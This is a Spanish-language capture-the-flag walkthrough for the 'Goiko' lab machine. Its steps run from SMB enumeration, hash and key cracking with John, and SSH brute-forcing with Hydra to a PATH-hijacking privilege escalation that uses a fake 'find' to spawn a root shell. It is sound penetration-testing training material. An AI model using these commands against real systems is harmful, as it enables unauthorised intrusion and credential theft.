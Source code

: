```yaml
---
layout: post
title: "Goiko"
date: 2024-06-22 11:55:23
category: sample
vm: hackerlabs
---
```


<style>
  .post-content {
    color: #51c25be1; /* Cambia el color del texto */
  }
</style>

<table class="log">
  <tr>
    <td rowspan="5"><img src="/notas/public/img/thehackerlabs/thehackerlabs.png" width=260></td>
    <td></td>
  </tr>
  <tr> <td><strong>Máquina:</strong> Goiko </td> </tr>
  <tr> <td><strong>SO:</strong> Linux</td> </tr>
  <tr> <td><strong>Dificultad:</strong> <span class="easy">Facil</span></td> </tr>
  <tr> <td><strong><a href="https://thehackerslabs.com/goiko/" target="_blank"> Descarga</a></strong></td> </tr>
</table>

<br>


![img](/notas/public/img/thehackerlabs/Goiko/host.png){:.margin}

**1\.** Escaneando la red para ver los hosts activos.

`sudo arp-scan -I enp2s0 --localnet`

![img](/notas/public/img/thehackerlabs/Goiko/arp.png){:.margin}

**2\.** Escaneo los puertos y servicios del host objetivo.

`sudo nmap -p- --open -T5 --min-rate=5000 -sCV -n -Pn 192.168.1.9`

![img](/notas/public/img/thehackerlabs/Goiko/nmap.png){:.margin}

**3\.** Ya que no tenemos mas, y menos credenciales, listo los archivos compartidos.

`smbclient -L //192.168.1.9/ -N`

![img](/notas/public/img/thehackerlabs/Goiko/smbclientL.png){:.margin}

**4\.** Veo los recursos en cada carpeta, en una de ellas encuentro credenciales.

`smbclient //192.168.1.9/menu -N`

`get \.cafesinleche`

`cat ./\\.cafesinleche || cat ./.cafesinleche`

![img](/notas/public/img/thehackerlabs/Goiko/cafesinleche.png){:.margin}

**5\.** Accedo por ssh pero no encuentro nada, mas que saber los usuarios de la maquina.

`ssh marmai@192.168.1.9`

`cat /etc/passwd | grep bash`

![img](/notas/public/img/thehackerlabs/Goiko/users.png){:.margin}

**6\.** Accedo por ftp, donde encuentro un comprimo y me lo descargo.

`ftp 192.168.1.9 -p 10021`

`dir`

`get BurgerWithoutCheese.zip`

![img](/notas/public/img/thehackerlabs/Goiko/zip.png){:.margin}

**7\.** Necesito una clave para descomprimir, procedo a crackear la contraseña.

`zip2john BurgerWithoutCheese.zip > keyzip`

`john --wordlist=/usr/share/wordlists/rockyou.txt keyzip`

![img](/notas/public/img/thehackerlabs/Goiko/zipkey.png){:.margin}

**8\.** Descomprimo y me da una lista de usuarios y una idrsa cifrada.

`unzip BurgerWithoutCheese.zip`

`cat users`

`cat id_rsa`

![img](/notas/public/img/thehackerlabs/Goiko/zipfiles.png){:.margin}

**9\.** Crackeando la contraseña del id_rsa.

`ssh2john id_rsa > key`

`john --wordlist=/usr/share/wordlists/rockyou.txt key`

![img](/notas/public/img/thehackerlabs/Goiko/idrsakey.png){:.margin}

**10\.** Haciendo fuerza bruta al ssh.

`hydra -L users -p "babygirl" ssh://192.168.1.9`

![img](/notas/public/img/thehackerlabs/Goiko/hydra.png){:.margin}

**11\.** Accedo por ssh como gurpreet y encuentro una nota.

`ssh gurpreet@192.168.1.9`

`cat nota`

![img](/notas/public/img/thehackerlabs/Goiko/sshgurpreet.png){:.margin}
![img](/notas/public/img/thehackerlabs/Goiko/gurpreetfiles.png){:.margin}

**12\.** Accedo a la base de datos, encuentro credenciales.

`mariadb -u gurpreet -p`

`show databases;`

`use secta;`

`show tables;`

`select * from integrantes;`

![img](/notas/public/img/thehackerlabs/Goiko/mariadb.png){:.margin}

**13\.** Crackeando los hashes en md5.

`nano hashes`

`john --wordlist=/usr/share/wordlists/rockyou.txt hashes --format=RAW-MD5`

![img](/notas/public/img/thehackerlabs/Goiko/johnhashes.png){:.margin}

**14\.** Migro al usuario nika, veo que puedo ejecutar un script bash como root.

`su nika`

`sudo -l`

![img](/notas/public/img/thehackerlabs/Goiko/sudol.png){:.margin}

**15\.** Escalando privilegios a superusuario.

_15.1- Veo que el script ejecuta el comando find pero sin especificar su ruta_

`cat /opt/porno/watchporn.sh`

![img](/notas/public/img/thehackerlabs/Goiko/watchporn.png){:.margin}

_15.2- Voy a mi directorio de usuario y creo un find alternativo que ejecute una bash_

`cd`

`echo "/bin/bash" > find`

`chmod 777 find`

![img](/notas/public/img/thehackerlabs/Goiko/find.png){:.margin}
_15.3- Por ultimo ejecuto el script indicando nuestro PATH temporalmente, y obtenemos el usuario root_

`sudo PATH=/home/nika:$PATH /opt/porno/watchporno.sh`

![img](/notas/public/img/thehackerlabs/Goiko/root.png){:.margin}

<br>

<span class="finish">_Finalizado._</span>
